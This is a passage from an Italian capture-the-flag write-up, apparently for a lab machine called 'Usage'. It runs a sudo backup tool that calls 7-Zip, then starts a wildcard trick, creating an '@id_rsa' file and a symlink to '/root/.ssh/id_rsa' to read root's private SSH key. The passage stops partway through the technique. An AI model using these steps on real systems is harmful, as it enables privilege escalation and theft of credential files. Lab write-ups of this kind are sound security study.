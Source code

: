 andiamo a vedere cons fa `usage_management`

```bsah
xander@usage:/home$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=C.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--
Path = /var/backups/project.zip
Type = zip
Physical Size = 54873309

Scanning the drive:
2984 folders, 17948 files, 113879412 bytes (109 MiB)

Updating archive: /var/backups/project.zip

Items to compress: 20932


Files read from disk: 17948
Archive size: 54873361 bytes (53 MiB)
Everything is Ok

```

Scegliendo l'opzione 1 viene avviato 7-Zip per aggiornare l'archivio ZIP di backup del progetto situato in `/var/backups/project.zip`, Questo scansiona i file e le cartelle sul disco, e comprimendo gli elementi aggiornati o nuovi nell'archivio ZIP.

Ora [qui](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks?source=post_page-----16397895490f--------------------------------) troviamo un modo per utilizzare 7z per leggere dei file a cui normalmente non abbiamo accesso. con ad esempio un `id_rsa` privata dell'utente root.

Ora seguendo quello che abbiamo letto creiamo un file vuoto chiamato `@id_rsa`  che è la chiave id_rsa di root.

```bash
xander@usage:/var/www/html$ touch @id_rsa
```

Ora creiamo un collegamento simbolico che punta al file che vogliamo leggere.

```bash
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa
```
